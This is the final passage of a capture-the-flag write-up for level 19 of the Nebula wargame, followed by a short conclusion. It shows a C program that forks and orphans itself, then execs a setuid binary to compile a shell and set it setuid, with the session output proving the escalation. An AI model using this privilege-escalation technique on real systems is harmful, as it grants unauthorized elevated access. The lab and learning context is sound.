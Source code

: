 To go about this, we would have to write a small C wrapper that will fork itself. We need to give this wrapper a few seconds after the fork to finish off allowing the forked process to become orphaned. Once the process is in the orphaned state, we can `execv()` the `flag19` binary and prepare a shell :)

So, to solve level19:

```bash
level19@nebula:/var/tmp$ vim pwn19.c
level19@nebula:/var/tmp$ cat pwn19.c
#include<stdio.h>
#include<unistd.h>

int main(void) {

    pid_t pid = fork();

    if (pid == 0) {

        char *arg[] = { "/bin/sh" , "-c" , "gcc /var/tmp/shell.c -o /var/tmp/flag19; chmod 4777 /var/tmp/flag19" , NULL};
        sleep(2); /* Give the fork 2 sec to orphan */
        execv("/home/flag19/flag19", arg);
        printf("Done fork\n");
        return 0;
    }

    printf("Done parent\n");
    return 0;
}

level19@nebula:/var/tmp$ gcc pwn19.c -o pwn19
level19@nebula:/var/tmp$ ./pwn19
Done parent

level19@nebula:/var/tmp$ /var/tmp/flag19
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## conclusion
Even though many of the levels were really really easy, the latter levels did force me to learn a few new things which was great. I think this is some really good learning material for people new to the scene. Heck, I think I will refer people to this next time they ask about OSCP... ;)

As a final touch, my 'loot' in `/var/tmp` after finishing the last level:

{% img https://i.imgur.com/JHZHRJD.png %}
